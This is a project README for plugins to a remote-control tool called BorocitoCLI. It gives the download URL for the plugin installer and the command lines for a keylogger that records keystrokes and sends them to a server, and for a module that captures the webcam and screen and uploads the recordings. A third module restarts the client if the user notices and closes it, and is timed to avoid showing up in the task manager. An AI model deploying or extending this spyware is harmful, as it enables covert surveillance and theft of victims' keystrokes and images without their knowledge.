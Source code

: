 # borocito-components
Complementos para Borocito CLI

## Complements
These plugins were created to enrich the experience with BorocitoCLI.

They're not perfect, but they're not disappointing either. Well, it really depends on how they're made. I invite you to contribute to the development of these, if there is something, an error, bug, an idea, etc, contribute, I will greatly appreciate it, and those of us who use these complements too.

### Using it
All plugins here, except for the 'boro-get' package manager, were created by Zhenboro. Yeah, and besides the fact that I made them, they need to be installed by 'boro-get'.
boro-get is a module within BorocitoCLI. It's totally inside, well implemented. So, initially, there should be no problem.

#### boro-get
This must be installed, by default it is not implemented. It should be installed using the command `boro-get install`, to check if it is installed or not, use `boro-get status`, if it is already installed, great!
Now, if you want to be sure the latest version is installed, use `boro-get uninstall`, that will uninstall boro-get. Then you can use the `boro-get install` command to download and install the latest version available on the server indicated in the file: GlobalSettings.ini
```sh
[Components]
boro-get=http://chemic-jug.000webhostapp.com/Borocito/Boro-Get/boro-get.zip
```
Now that boro-get is installed. We can start installing and using the packages.

We can install a package with the command `boro-get <package> <start?> <parameters>`
An example with broKiloger:
`boro-get broKiloger True /startrecording`
If the package does not require an argument:
`boro-get broKiloger`
(<start?> will be marked as True, the package will start)

If you don't want to start it (just download and install it)
`boro-get broKiloger False null`

>NOTE: 'null' is a reserved word, it will be very useful!

Now we are going to define a concept.
**Single Instance Package**: A package with this warning means that only one instance of it will be started. Just one.
These are designed to do unique unrepeatable things. Like a keylogger. This is something global, why another instance?
Also, they can receive parameters when they are already started, so you can control them.

### boro-hear
boro-hear is a module that allows plugins to communicate (one-way C->S) with the Control Panel.

If you make a plugin, you can make it send messages to the control panel. In your code you should put something like [this code](https://github.com/Zhenboro/borocito-components/blob/e7eda70b99cfcfa2ea3a66223cc3564703051f29/broKiloger/Utility.vb#L8-L51).
That will start an instance of boro-hear which will send your message to the server. boro-hear is single-instance, but messages can be sent by passing parameters to it. These are picked up by boro-hear via the StartUpNextInstance event.


### broEstoraje
This plugin is not coded yet.
It is used to explore files. Basically [RMTFS](https://github.com/Zhenboro/RMTFS) adapted to work with FTP (or IDFTP).

### broKiloger
broKiloger is a plugin dedicated to logging keys.

> NOTE: Single Instance Package

Your options are:
```sh
/startrecording: It will start key recording.
boro-get broKiloger True /startrecording
```
```sh
/stoprecording: It will stop the key recording and broKiloger will close.
boro-get broKiloger True /stoprecording
```
> NOTE: It will not save or send the record.

```sh
/sendrecord: It will send the keylogger and then start recording again.
boro-get broKiloger True /sendrecord
```

```sh
/resetrecord: It will clean the keylogger.
boro-get broKiloger True /resetrecord
```
> NOTE: It will not save or send the record.

```sh
/sendandexit: It will send the keylogging and then broKiloger will close.
boro-get broKiloger True /sendandexit
```

### broRescue
This plugin was created because it turns out that sometimes an instance of BorocitoCLI can be closed by some external or internal factor. Perhaps the user noticed the presence and closed it, or, a command left a mess that BorocitoCLI couldn't handle.
For this reason, broRescue is a good recommendation that it be installed.
**And what does it do?**
Well it's simple. If you notice that BorocitoCLI has closed. You can make broRescue restart the BorocitoCLI instance by using the command:
`broRescue Borocito`
and not only that, you can also start the extractor, or the updater.
To do this, the commands will be:
`broRescue Extractor`
`broRescue Updater`
Or even restart the computer with the command:
`broRescue Restart`
This packet reads directly from the server. Every 20 minutes. So yes, you will notice the effect in 20 minutes. And that is done so as not to load the server, and also so that it is not noticed from the task manager.

### broScrincam
This plugin is for:
- Take photos from a Webcam
- Record video from a Webcam
- Record screen

> NOTE: Single Instance Package

```sh
/startscreenrecording: (will try) record the screen.
boro-get broScrincam True /startscreenrecording
```

```sh
/stopscreenrecording: It is supposed to stop screen recording. That part is not scheduled yet.
boro-get broScrincam True /stopscreenrecording
```
> NOTE: It will not save or send the record. Not coded yet.

```sh
/startcamrecording: It will start to record video from the webcam
boro-get broScrincam True /startcamrecording
```

```sh
/takecampicture: It will take a screenshot of the webcam
boro-get broScrincam True /takecampicture
```
> NOTE: It will be sent automatically.

```sh
/stopcamrecording: It will stop the Webcam recording.
boro-get broScrincam True /stopcamrecording
```
> NOTE: It will not save or send the record.

```sh
/sendscreenrecord: It is supposed to stop, save and send the screen recording. This part is not coded yet.
boro-get broScrincam True /sendscreenrecord
```
> NOTE: Not coded yet.

```sh
/sendcamrecord: It will stop the Webcam recording and send it automatically.
boro-get broScrincam True /sendcamrecord
```
> NOTE: It will be sent automatically.

```sh
/stop: It will send the keylogger and then start recording again.
boro-get broScrincam True /stop
```

## Uninstalling a package
To uninstall, remove a package, the following points must be taken into account.
- The plugin MUST BE CLOSED. There should not be an instance of this. Read the documentation to know how to close it.
- All data from this plugin, recordings, files, etc. will be deleted.
- They can be reinstalled, don't worry about it.

To uninstall, use the `boro-get <package> uninstall` command.
An example with broKiloger would be:
`boro-get broKiloger uninstall`
'uninstall' in lowercase.

The plugins created are not perfect. I recommend you take a look at the code to know what it does and how it does it, so you avoid unpredictable behavior or bad practices.
